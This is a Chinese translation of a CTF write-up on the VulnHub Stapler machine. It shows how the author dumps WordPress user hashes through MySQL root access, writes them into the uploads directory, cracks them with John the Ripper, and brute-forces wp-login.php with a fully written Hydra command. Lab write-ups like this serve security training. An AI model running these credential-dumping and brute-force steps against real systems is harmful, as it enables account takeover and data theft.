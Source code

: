 # 密码

> 原文：<https://infosecwriteups.com/pwning-wordpress-passwords-2caf12216956?source=collection_archive---------0----------------------->

![](img/32cfe19fecd652bd0df8b0c1abcf03f6.png)

在我的[上一篇文章](https://medium.com/bugbountywriteup/stapler-pt-2-webshells-cronjobs-549b13dbf3d3)中，我从服务器恢复了`mysql`凭证，并从那里将一个 webshell 写到磁盘。这一次，我们将通过转储散列，用`John The Ripper`破解它们，以及用`Hydra`强制 WordPress 登录来进一步利用数据库内容。

## 获取哈希值

为了用一行程序访问`mysql`服务，我使用了以下代码:

```
mysql --user=root --password=plbkac --host=192.168.15.151
```

对于真实的约定和以明文形式输入密码存在安全问题的情况，您可以省略`-password`标志，而是在连接时提示您输入密码。

一旦我们连接到服务，我们可以开始枚举里面的东西！首先，让我们列出数据库:

```
> show databases;
```

我们可以看到有几个。今天的兴趣是`wordpress`，但是`loot`和`proof`很有趣，我鼓励每个人自己去看看。

我们来列举一下`wordpress`数据库。为此，我们必须选择它:

```
> use wordpress
```

很简单。现在让我们看看这个数据库中有哪些表:

```
> show tables;
```

好吧，酷。这看起来就像是所有需要储存在博客上的东西被保存的地方。让我们看看`wp_users`表，看看我们是否能得到一些信用:

```
> describe wp_users;
```

看看这些字段，我们似乎会对`user_login`和`user_pass`感兴趣。要查看这些字段:

```
> select user_login, user_pass from wp_users;
```

我们也可以将这两个文件连接在一起，看起来像`user:password`:

```
> select concat_ws(‘:’, user_login, user_pass) from wp_users;
```

我们可以复制并粘贴这个列表，因为它只有 16 个条目。然而，我们也可以将它写入一个文件，并从服务器中检索它。在我之前的帖子中，我们通过`mysql`编写了一个 webshell，并将其放在`/var/www/https/blogblog/wp-content/uploads/`目录中。

```
select concat_ws(‘:’, user_login, user_pass) from wp_users into outfile ‘/var/www/https/blogblog/wp-content/uploads/creds.txt’;
```

![](img/cf386a773b3b9a2f5cdd2a034335982d.png)

用户:通过

这是哈希值。我们可以直接从服务器上获取这个文件，方法是:

```
curl -k https://192.168.15.151:12380/blogblog/wp-content/uploads/creds.txt > creds.txt
```

> `-k`忽略服务器的自签名证书

## 破解哈希

现在我们已经从服务器上获得了密码散列，让我们开始破解吧！由于我在虚拟机中运行 Kali，我不能运行`hashcat`,因为我没有运行它的 GPU。我破解哈希的首选是`John The Ripper`和`rockyou`单词表。不是因为这些总能让我得到结果，而是因为对于像 VulnHub 上的许多 CTF 风格的机器来说，如果散列应该被破解，这些应该可以做到。

这些是我以前没有体验过的 phpass 散列。我试着给`John The Ripper`一个`user:pass`格式来破解密码，并将它们关联到与之相关的用户名。然而，该文件导致了一个我没有预料到的格式错误。我能够成功地运行`John The Ripper`,只需要散列，不需要用户名。

```
john hashes --wordlist=/usr/share/wordlists/rockyou.txt
```

![](img/ccd7c669fbbb75ee1847e7cdd41830bf.png)

破解哈希

单词表破解了大约一半的哈希。但是现在我遇到了一个不同的问题:哪个密码属于哪个账户？

## 强力登录 WordPress

为了将用户名与破解的密码关联起来，我选择使用`hydra`。我将用户名复制到一个文件中，将明文密码复制到另一个文件中。强制 web 登录比 ssh 之类的其他服务要复杂一些。这是因为您必须提供每个参数的字段名称以及会话 cookies，以及不成功的尝试是什么样子的。

![](img/46f79a3e27bd214125f354c967c009d8.png)

测试请求

为了获得必要的字段名，我启动了`burpsuite`并创建了一个测试登录来拦截在认证尝试期间发送的字段。

我输入`name`作为用户名，输入`secret`作为密码。当我用`burpsuite`拦截请求时，我能够看到对于一次登录尝试来说还有其他必要的字段。

![](img/ed6c3c65e97faeef5a2d9eef8b9aff72.png)

打嗝

总之，我需要指定四个字段，`log`作为用户名，`pwd`作为密码，`wp-submit`作为登录名，`testcookie`等于`1`。当 WordPress 重定向一个成功的认证时，页面在源中包含`Location`；失败的情况并非如此。我们可以将所有这些信息交给`hydra`来破解这些密码。`hydra`使用`^USER^`和`^PASS^`作为锚字段，在暴力破解尝试中进行迭代。

```
hydra 192.168.15.151 -s 12380 https-form-post “/blogblog/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location” -L users -P pass
```

> `-s`指定端口 12380
> `https-form-post`指定通过 https 发送 post 请求
> `/blogblog/wp-login.php`是登录页面
> `log=^USER^`指定用户名字段
> `pwd=^PASS^`指定密码字段
> `&wp-submit=Log In`指定登录按钮
> `&testcookie=1`指定 cookie 名称和值
> `S=Location`表示测试成功，成功将包含“位置”
> `-L`指定用户名列表名称
> `-P`指定密码列表名称

因为这个命令相当长，所以我把它放在一个 shell 脚本中，以便以后编辑和保存，并把它命名为`brute.sh`。

![](img/dd5367aa87096d106d5d5377ff246086.png)

残忍的

在这里，我们看到`hydra`能够在几秒钟内将所有密码匹配到他们的用户名！在具有任何类型的日志记录或监控的机器上进行暴力破解是一件很麻烦的事情。有可能启动入侵防御系统，将我们的 IP 列入黑名单。然而，由于这台机器没有任何保护措施，我们可以用我们的用户列表和密码列表运行`hydra`并在没有`John The Ripper`的情况下得到相同的结果。

我们能够破解 WordPress 管理员的多个证书。这些帐户拥有提升的权限，允许他们将任意文件写入机器上的磁盘。这是在盒子上获得外壳的可能途径。